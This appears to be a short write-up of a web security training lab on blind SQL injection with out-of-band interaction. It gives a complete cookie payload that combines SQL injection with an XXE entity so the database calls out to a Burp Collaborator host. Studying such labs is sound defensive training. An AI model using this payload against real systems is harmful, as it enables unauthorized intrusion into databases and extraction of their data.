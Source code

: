 # Lab: Blind SQL injection with out-of-band interaction

Open burp collaborator and copy the payload.

Load the front page of the shop intercept the request. Modify the TrackingId cookie as follows to trigger an interaction with the collaborator client (also using XXE techniques):

`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<collaborator-id>.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`